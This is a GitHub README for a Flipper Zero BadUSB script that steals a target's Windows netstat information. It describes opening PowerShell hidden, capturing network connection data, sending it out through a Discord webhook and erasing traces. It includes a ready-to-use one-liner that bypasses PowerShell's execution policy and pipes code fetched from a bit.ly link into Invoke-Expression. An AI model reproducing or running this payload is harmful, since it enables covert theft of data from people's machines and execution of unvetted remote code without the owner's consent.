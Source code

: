 # Windows netstat - BadUSB ✅

A script used to stole target netstat status.


**Category**: Net, Exfiltration

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2Faleff-github%2Fmy-flipper-shits&count_bg=%233C3C3C&title_bg=%233C3C3C&icon=linux.svg&icon_color=%23FFFFFF&title=views&edge_flat=false)](https://github.com/aleff-github/my-flipper-shits)

## Disclaimer

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/gif/flipper_zero%20(15).gif?raw=true" width="209" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png?raw=true" width="600" />

</div>

## Description

This script will stole target netstat status.

Opens PowerShell hidden, grabs netstat status, saves as a cleartext in a variable and exfiltrates info via Discord Webhook.

Then it cleans up traces of what you have done after.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke the indicated commands 
* Invoke-WebRequest will be entered in the Run Box to send the content

### Settings
Put 1 on the function that you want to active, else 0.
Functions available:
- default (*or simple 'netstat' command*)
- routing_table **$r**
- listening_canonical **$lc**
- listening_numerical **$ln**
- all_canonical **$ac**
- all_numerical **$an**
- offload **ot**
- proto **$p "\<protocol>"**
    - *In this option you must put the protocol that you want to monitor, for example $proto="TCP" if you want to monitor TCP, else leave blank, so $proto="".*

```powershell
powershell -w h -ep bypass $discord='';$d='1';$r='1';$lc='1';$ln='1';$ac='1';$an='1';$o='1';$p='TCP';irm bit.ly/WindowsNetstatScript1 | iex
```

You must put your Discord webhook into the variable $discord='\<your-webhook-here>'
